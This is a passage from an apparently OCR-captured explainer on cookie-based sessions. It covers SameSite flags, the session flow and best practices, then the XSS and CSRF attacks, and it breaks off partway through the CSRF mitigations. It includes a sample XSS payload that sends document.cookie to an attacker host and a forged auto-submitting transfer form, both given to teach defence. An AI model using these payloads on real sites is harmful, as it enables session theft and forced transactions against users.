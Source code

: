   * `Strict`: not sent on cross-site navigations.
  * `Lax`: sent for top-level GET navigations (good default).
  * `None` + `Secure`: allow cross-site (required for third-party cookies).
* **Signed/Encrypted** — server may HMAC or encrypt cookie value to prevent tampering.

---

# 2) How cookies are used for sessions (typical flow)

1. User authenticates (POST `/login` with credentials).
2. Server creates a **session record** (in Redis/DB/memory) and generates a random **session ID** (secure random token).
3. Server sets cookie: `Set-Cookie: sid=RANDOMTOKEN; HttpOnly; Secure; SameSite=Lax; Path=/;`
4. Browser stores cookie and **automatically sends** `Cookie: sid=RANDOMTOKEN` on subsequent requests to the origin.
5. Server looks up session by `sid` and authorizes actions.

Alternatives:

* **Stateless**: store JWT in cookie (be careful — JWT revocation/rotation adds complexity).
* **Signed cookies**: server encodes state in cookie and signs it (keeps server stateless but must handle key rotation).

Best practices:

* Use cryptographically secure random session IDs (≥ 128 bits).
* Store session state server-side (Redis) and store only the ID client-side.
* Regenerate session ID on privilege change (login, role change) to prevent fixation.
* Short lifetimes; sliding expiration if user active.

---

# 3) Concrete attacks & how they work

### A. Cross-Site Scripting (XSS) — *cookie theft*

* **What**: Attacker injects JS into a page on your origin (e.g., via unsanitized user input).
* **Impact**: If cookies are accessible via `document.cookie`, malicious JS can read them and exfiltrate — attacker gets valid `sid` and can impersonate user.
* **Example payload**: `<script>fetch('https://attacker.com/steal?c='+document.cookie)</script>`
* **Mitigation**:

  * `HttpOnly` cookies (prevents JS reading cookie).
  * Strong input validation & output encoding (CSP helps).
  * Content Security Policy (CSP) to reduce risk of script injection/exfiltration.

### B. Cross-Site Request Forgery (CSRF) — *forced actions*

* **What**: Attacker causes victim’s browser to send a request (with cookies automatically) to your site that performs an action (e.g., transfer money).
* **Why cookies are “sent but unreadable” matters**: The attacker can trigger requests but cannot read the responses.
* **Example**: malicious form auto-submits `<form action="https://bank.com/transfer" method="POST"><input name="amount" value="1000"/></form>` on user visit.
* **Mitigation**:
